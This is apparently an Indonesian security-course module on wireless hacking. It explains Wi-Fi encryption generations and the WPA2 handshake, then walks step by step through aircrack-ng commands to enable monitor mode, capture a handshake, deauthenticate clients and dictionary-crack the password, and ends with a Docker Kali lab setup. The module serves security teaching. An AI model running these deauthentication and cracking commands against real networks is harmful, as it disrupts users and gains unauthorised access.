

# 🛡️ Pertemuan 8: Wireless Network Hacking

**Tujuan:** Memahami protokol keamanan jaringan nirkabel, melakukan audit keamanan Wi-Fi, dan mempraktikkan teknik cracking WPA2.

---

## 📚 Materi Teori

### 1. Evolusi Keamanan Wi-Fi
- **WEP (Wired Equivalent Privacy)**: Sangat lemah, bisa dibobol dalam hitungan menit.
- **WPA (Wi-Fi Protected Access)**: Menggunakan TKIP, lebih aman dari WEP.
- **WPA2**: Menggunakan enkripsi AES yang kuat. Standar saat ini.
- **WPA3**: Versi terbaru dengan perlindungan terhadap serangan offline dictionary.

### 2. WPA2 4-Way Handshake
Proses pertukaran kunci antara client dan Access Point (AP). Hacker perlu menangkap handshake ini untuk melakukan cracking offline.



---

## 🛠️ Hands-on: Cracking WPA2

*Catatan: Hands-on ini memerlukan Wireless Adapter yang mendukung **Monitor Mode** dan **Packet Injection**.*

### 1. Mengaktifkan Monitor Mode
```bash
# Cek interface wireless
iwconfig

# Aktifkan monitor mode (misal interface: wlan0)
sudo airmon-ng start wlan0
```

### 2. Menangkap Handshake
```bash
# Scan jaringan sekitar
sudo airodump-ng wlan0mon

# Fokus pada satu BSSID dan simpan capture (Channel 6)
sudo airodump-ng -c 6 --bssid <MAC_AP> -w wpa_handshake wlan0mon
```

### 3. Deauthentication Attack
Memaksa client terputus agar melakukan reconnect dan kita bisa menangkap handshake.
```bash
sudo aireplay-ng -0 5 -a <MAC_AP> wlan0mon
```

### 4. Cracking Offline
Setelah mendapatkan file `.cap` (handshake), lakukan dictionary attack.
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa_handshake-01.cap
```

---

## 🐳 Step-by-Step: Docker Kali Linux Lab
*PENTING: Wireless hacking di Docker memerlukan akses langsung ke perangkat keras host.*

1.  **Persiapan**: Hubungkan USB Wireless Adapter yang mendukung monitor mode.
2.  **Jalankan Container**: Gunakan flag `--privileged` dan `--net=host`:
    ```bash
    docker run -it --rm --privileged --net=host kalilinux/kali-rolling /bin/bash
    ```
3.  **Update & Install**: Instal suite alat nirkabel:
    ```bash
    apt update && apt install -y aircrack-ng pciutils usbutils
    ```
4.  **Verifikasi**: Pastikan adapter terdeteksi di dalam Docker:
    ```bash
    iwconfig
    ```
5.  **Eksplorasi**: Jalankan `airmon-ng start <interface>` untuk memulai proses monitoring.

## 📖 Referensi
- **Aircrack-ng Documentation**: [aircrack-ng.org](https://www.aircrack-ng.org/doku.php)
- **Wi-Fi Alliance**: [WPA3 Security](https://www.wi-fi.org/discover-wi-fi/security)
- **Hacking Wireless Networks for Dummies** - Kevin Beaver
